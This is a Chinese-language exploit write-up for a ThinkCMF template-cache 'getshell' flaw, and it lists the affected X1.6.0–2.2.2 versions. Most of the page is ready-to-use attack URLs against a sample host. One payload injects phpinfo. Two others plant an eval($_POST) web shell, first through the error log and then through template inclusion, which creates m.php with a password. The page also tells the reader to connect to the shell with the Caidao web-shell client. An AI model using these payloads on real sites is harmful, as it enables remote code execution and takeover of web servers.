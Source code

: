 ThinkCMF 缓存Getshell
=====================

一、漏洞简介
------------

二、漏洞影响
------------

ThinkCMF X1.6.0ThinkCMF X2.1.0ThinkCMF X2.2.0ThinkCMF X2.2.1ThinkCMF X2.2.2

三、复现过程
------------

### 常规操作

    http://www.0-sec.org/index.php?a=display&templateFile=README.md&content=%3C?php%20phpinfo();die();

![](./.resource/ThinkCMF缓存Getshell/media/rId25.png)

利用缓存文件getshell
--------------------

由于thinkcmf2.x使用了thinkphp3.x作为开发框架，默认情况下启用了报错日志并且开启了模板缓存，导致可以使用加载一个不存在的模板来将生成一句话的PHP代码写入data/runtime/Logs/Portal目录下的日志文件中，再次包含该日志文件即可在网站根目录下生成一句话木马m.php

日志文件格式为YY\_MM\_DD.log，如当前日期为2019年12月12日，日志文件为19\_12\_12.log，完整路径为

    data/runtime/Logs/Portal/19_12_12.log

**payload 一**

-   首先访问

```{=html}
<!-- -->
```
    http://www.0-sec.org/?a=display&templateFile=%3C?php%20file_put_contents(%27m.php%27,%27%3C%3fphp+eval($_POST[%22X%22])%3b%3F%3E%27);die();?%3E

-   然后请求

```{=html}
<!-- -->
```
    http://www.0-sec.org/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log

-   即可在http://www.0-sec.org/根目录生成m.php，密码是X

**payload 二**

-   首先访问

```{=html}
<!-- -->
```
    http://www.0-sec.org/?a=display&templateFile=%3C%3F%70%68%70%20%65%76%61%6C%28%24%5F%50%4F%53%54%5BX%5D%29%3B%3F%3E

-   然后菜刀链接（密码也是x）

```{=html}
<!-- -->
```
    http://www.0-sec.org/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log
